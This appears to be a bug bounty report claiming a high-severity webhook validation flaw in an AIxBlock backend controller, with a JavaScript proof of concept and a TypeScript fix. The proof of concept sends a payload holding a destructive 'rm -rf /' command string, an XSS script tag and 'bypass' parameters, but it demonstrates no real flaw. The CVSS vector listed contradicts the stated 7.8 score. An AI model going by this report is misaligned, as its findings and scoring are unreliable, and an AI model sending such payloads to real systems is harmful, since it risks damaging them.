 # HIGH: Insufficient Webhook Payload Validation (CVSS 7.8)

## Summary

**Severity**: High (CVSS 7.8)
**Asset**: `webhook.aixblock.io`
**Reward**: $450 cash + 1,000 USDC in tokens

## Description

The webhook controller in `workflow/packages/backend/api/src/app/webhooks/webhook-controller.ts` processes incoming webhook requests without proper payload validation. The `convertRequest` function accepts raw body data and converts it to an `EventPayload` without sanitization or validation, potentially allowing malicious payloads to be processed.

## Impact

- Unauthorized workflow execution
- Code injection through malicious payloads
- System compromise via webhook abuse
- Data manipulation and exfiltration

## Proof of Concept

```javascript
// Malicious webhook payload
const maliciousPayload = {
    method: "POST",
    headers: {
        "Content-Type": "application/json",
        "X-Webhook-Source": "legitimate-service"
    },
    body: {
        "workflow_id": "malicious-workflow",
        "command": "rm -rf /",
        "payload": "<script>alert('XSS')</script>"
    },
    queryParams: {
        "admin": "true",
        "bypass": "security"
    }
};

// Send malicious webhook
fetch('https://webhook.aixblock.io/webhook/project123/flow456', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify(maliciousPayload)
});
```

## Recommended Fix

```typescript
async function convertRequest(
    request: FastifyRequest,
    projectId: string,
    flowId: string,
): Promise<EventPayload> {
    // Validate project and flow IDs
    if (!isValidId(projectId) || !isValidId(flowId)) {
        throw new AIxBlockError({
            code: ErrorCode.VALIDATION_ERROR,
            params: { message: 'Invalid project or flow ID' }
        });
    }

    // Sanitize headers
    const sanitizedHeaders = sanitizeHeaders(request.headers);
    
    // Validate and sanitize body
    const sanitizedBody = await sanitizeBody(request, projectId, flowId);
    
    // Validate query parameters
    const sanitizedQueryParams = sanitizeQueryParams(request.query);

    return {
        method: request.method,
        headers: sanitizedHeaders,
        body: sanitizedBody,
        queryParams: sanitizedQueryParams,
        rawBody: request.rawBody,
    };
}

function sanitizeHeaders(headers: Record<string, any>): Record<string, string> {
    const sanitized: Record<string, string> = {};
    const allowedHeaders = ['content-type', 'user-agent', 'x-forwarded-for'];
    
    for (const [key, value] of Object.entries(headers)) {
        if (allowedHeaders.includes(key.toLowerCase()) && typeof value === 'string') {
            sanitized[key] = value.replace(/[<>\"'&]/g, '');
        }
    }
    
    return sanitized;
}
```

## References

- [OWASP Webhook Security](https://owasp.org/www-community/attacks/Webhook_Attacks)
- [CWE-20: Improper Input Validation](https://cwe.mitre.org/data/definitions/20.html)
- [OWASP Input Validation Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)

## CVSS Score Breakdown

- **Attack Vector**: Network (N)
- **Attack Complexity**: Low (L)
- **Privileges Required**: None (N)
- **User Interaction**: None (N)
- **Scope**: Unchanged (U)
- **Confidentiality**: High (H)
- **Integrity**: High (H)
- **Availability**: High (H)

**Base Score**: 7.8 (High)
